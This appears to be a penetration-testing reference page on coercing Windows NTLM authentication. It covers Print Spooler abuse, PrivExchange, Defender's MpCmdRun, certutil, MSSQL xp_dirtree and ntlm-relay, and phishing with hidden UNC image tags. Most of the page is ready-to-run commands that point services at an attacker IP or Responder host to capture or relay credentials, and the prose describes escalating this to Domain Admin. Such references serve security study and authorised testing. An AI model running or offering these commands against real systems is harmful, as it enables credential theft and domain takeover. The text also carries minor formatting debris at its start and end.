 # Force NTLM Privileged Authentication

### [SharpSystemTriggers](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/printers-spooler-service-abuse.html#sharpsystemtriggers) <a href="#sharpsystemtriggers" id="sharpsystemtriggers"></a>

[**SharpSystemTriggers**](https://github.com/cube0x0/SharpSystemTriggers) is a **collection** of **remote authentication triggers** coded in C# using MIDL compiler for avoiding 3rd party dependencies.

### [Spooler Service Abuse](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/printers-spooler-service-abuse.html#spooler-service-abuse) <a href="#spooler-service-abuse" id="spooler-service-abuse"></a>

If the _**Print Spooler**_ service is **enabled,** you can use some already known AD credentials to **request** to the Domain Controller’s print server an **update** on new print jobs and just tell it to **send the notification to some system**.\
Note when printer send the notification to an arbitrary systems, it needs to **authenticate against** that **system**. Therefore, an attacker can make the _**Print Spooler**_ service authenticate against an arbitrary system, and the service will **use the computer account** in this authentication.

#### [Finding Windows Servers on the domain](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/printers-spooler-service-abuse.html#finding-windows-servers-on-the-domain) <a href="#finding-windows-servers-on-the-domain" id="finding-windows-servers-on-the-domain"></a>

Using PowerShell, get a list of Windows boxes. Servers are usually priority, so lets focus there:

```bash
Get-ADComputer -Filter {(OperatingSystem -like "*windows*server*") -and (OperatingSystem -notlike "2016") -and (Enabled -eq "True")} -Properties * | select Name | ft -HideTableHeaders > servers.txt
```

#### [Finding Spooler services listening](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/printers-spooler-service-abuse.html#finding-spooler-services-listening) <a href="#finding-spooler-services-listening" id="finding-spooler-services-listening"></a>

Using a slightly modified @mysmartlogin's (Vincent Le Toux's) [SpoolerScanner](https://github.com/NotMedic/NetNTLMtoSilverTicket), see if the Spooler Service is listening:

```bash
. .\Get-SpoolStatus.ps1
ForEach ($server in Get-Content servers.txt) {Get-SpoolStatus $server}
```

You can also use rpcdump.py on Linux and look for the MS-RPRN Protocol

```bash
rpcdump.py DOMAIN/USER:PASSWORD@SERVER.DOMAIN.COM | grep MS-RPRN
```

#### [Ask the service to authenticate against an arbitrary host](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/printers-spooler-service-abuse.html#ask-the-service-to-authenticate-against-an-arbitrary-host) <a href="#ask-the-service-to-authenticate-against-an-arbitrary-host" id="ask-the-service-to-authenticate-against-an-arbitrary-host"></a>

You can compile[ **SpoolSample from here**](https://github.com/NotMedic/NetNTLMtoSilverTicket)**.**

```bash
SpoolSample.exe <TARGET> <RESPONDERIP>
```

or use [**3xocyte's dementor.py**](https://github.com/NotMedic/NetNTLMtoSilverTicket) or [**printerbug.py**](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py) if you're on Linux

```bash
python dementor.py -d domain -u username -p password <RESPONDERIP> <TARGET>
printerbug.py 'domain/username:password'@<Printer IP> <RESPONDERIP>
```

#### [Combining with Unconstrained Delegation](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/printers-spooler-service-abuse.html#combining-with-unconstrained-delegation) <a href="#combining-with-unconstrained-delegation" id="combining-with-unconstrained-delegation"></a>

If an attacker has already compromised a computer with [Unconstrained Delegation](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/unconstrained-delegation.html), the attacker could **make the printer authenticate against this computer**. Due to the unconstrained delegation, the **TGT** of the **computer account of the printer** will be **saved in** the **memory** of the computer with unconstrained delegation. As the attacker has already compromised this host, he will be able to **retrieve this ticket** and abuse it ([Pass the Ticket](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/pass-the-ticket.html)).

### [RCP Force authentication](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/printers-spooler-service-abuse.html#rcp-force-authentication) <a href="#rcp-force-authentication" id="rcp-force-authentication"></a>

[GitHub - p0dalirius/Coercer: A python script to automatically coerce a Windows server to authenticate on an arbitrary machine through 12 methods.](https://github.com/p0dalirius/Coercer)

### [PrivExchange](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/printers-spooler-service-abuse.html#privexchange) <a href="#privexchange" id="privexchange"></a>

The `PrivExchange` attack is a result of a flaw found in the **Exchange Server `PushSubscription` feature**. This feature allows the Exchange server to be forced by any domain user with a mailbox to authenticate to any client-provided host over HTTP.

By default, the **Exchange service runs as SYSTEM** and is given excessive privileges (specifically, it has **WriteDacl privileges on the domain pre-2019 Cumulative Update**). This flaw can be exploited to enable the **relaying of information to LDAP and subsequently extract the domain NTDS database**. In cases where relaying to LDAP is not possible, this flaw can still be used to relay and authenticate to other hosts within the domain. The successful exploitation of this attack grants immediate access to the Domain Admin with any authenticated domain user account.

### [Inside Windows](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/printers-spooler-service-abuse.html#inside-windows) <a href="#inside-windows" id="inside-windows"></a>

If you are already inside the Windows machine you can force Windows to connect to a server using privileged accounts with:

#### [Defender MpCmdRun](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/printers-spooler-service-abuse.html#defender-mpcmdrun) <a href="#defender-mpcmdrun" id="defender-mpcmdrun"></a>

```bash
C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2010.7-0\MpCmdRun.exe -Scan -ScanType 3 -File \\<YOUR IP>\file.txt
```

#### [MSSQL](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/printers-spooler-service-abuse.html#mssql) <a href="#mssql" id="mssql"></a>

```sql
EXEC xp_dirtree '\\10.10.17.231\pwn', 1, 1
```

[MSSQLPwner](https://github.com/ScorpionesLabs/MSSqlPwner)

```shell
# Issuing NTLM relay attack on the SRV01 server
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -link-name SRV01 ntlm-relay 192.168.45.250

# Issuing NTLM relay attack on chain ID 2e9a3696-d8c2-4edd-9bcc-2908414eeb25
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -chain-id 2e9a3696-d8c2-4edd-9bcc-2908414eeb25 ntlm-relay 192.168.45.250

# Issuing NTLM relay attack on the local server with custom command
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth ntlm-relay 192.168.45.250
```

Or use this other technique: [https://github.com/p0dalirius/MSSQL-Analysis-Coerce](https://github.com/p0dalirius/MSSQL-Analysis-Coerce)

#### [Certutil](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/printers-spooler-service-abuse.html#certutil) <a href="#certutil" id="certutil"></a>

It's possible to use certutil.exe lolbin (Microsoft-signed binary) to coerce NTLM authentication:

```bash
certutil.exe -syncwithWU  \\127.0.0.1\share
```

### [HTML injection](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/printers-spooler-service-abuse.html#html-injection) <a href="#html-injection" id="html-injection"></a>

#### [Via email](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/printers-spooler-service-abuse.html#via-email) <a href="#via-email" id="via-email"></a>

If you know the **email address** of the user that logs inside a machine you want to compromise, you could just send him an **email with a 1x1 image** such as

html

```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```

and when he opens it, he will try to authenticate.

#### [MitM](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/printers-spooler-service-abuse.html#mitm) <a href="#mitm" id="mitm"></a>

If you can perform a MitM attack to a computer and inject HTML in a page he will visualize you could try injecting an image like the following in the page:

html

```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```

### [Other ways to force and phish NTLM authentication](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/printers-spooler-service-abuse.html#other-ways-to-force-and-phish-ntlm-authentication) <a href="#other-ways-to-force-and-phish-ntlm-authentication" id="other-ways-to-force-and-phish-ntlm-authentication"></a>

[Places to steal NTLM creds](https://book.hacktricks.wiki/en/windows-hardening/ntlm/places-to-steal-ntlm-creds.html)

### [Cracking NTLMv1](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/printers-spooler-service-abuse.html#cracking-ntlmv1) <a href="#cracking-ntlmv1" id="cracking-ntlmv1"></a>

If you can capture [NTLMv1 challenges read here how to crack them](https://book.hacktricks.wiki/en/windows-hardening/ntlm/index.html#ntlmv1-attack).\
&#xNAN;_&#x52;emember that in order to crack NTLMv1 you need to set Responder challenge to "1122334455667788"_
